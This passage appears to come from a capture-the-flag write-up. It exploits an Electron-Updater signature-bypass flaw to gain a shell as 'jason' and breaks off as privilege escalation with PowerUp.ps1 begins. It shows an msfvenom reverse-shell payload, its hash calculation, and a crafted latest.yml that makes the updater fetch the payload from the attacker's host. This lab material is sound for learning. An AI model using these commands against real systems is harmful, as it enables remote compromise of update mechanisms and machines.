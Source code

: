 
## Shell as jason
### Electron-Updater RCE

[This article](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html) shows that the vulnerability in Electron-Builder's update mechanism allows an attacker to bypass signature verification, leading to remote command execution due to a fail-open design in the signature validation process.


I will create reverse shell payload using **msfvenom**:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.12 LPORT=1337 -f exe > "r'ev.exe"`

![](https://i.imgur.com/23lN9XI.png)


Now I will calculate payload's **sha512** hash:


`shasum -a 512 "r'ev.exe" | cut -d " " -f1 | xxd -r -p | base64`

![](https://i.imgur.com/dMmUvnu.png)


Then `touch` a file named **latest.yml** and the put the following content in it:

```yml
version: 1.2.3
path: http://10.10.16.12/r'ev.exe
sha512: slEJ4YFQUKGg7w88nxsU+y/pmfpQRpOIjfP8C5JTCQe6tGfDoYnzl/s3bnHJEXDJcAFJlO7HnJ4eRoAc2xcetg==
```

With php http server running, I will the **latest.yml** to **/Software_Updates/client1** share:

![](https://i.imgur.com/BoGJZK3.png)


Within a minute, connection is made:

![](https://i.imgur.com/8o9KA0R.png)


Now on local listener, reverse shell is spawned as **jason**:

![](https://i.imgur.com/bBVrfd4.png)


## Privesc: jason to Administrator
### PowerUp.ps1
I will first upload **PowerUp.ps1**:

![](https://i.imgur.com/LQmtybK.png)


Powershell script execution is restirced:
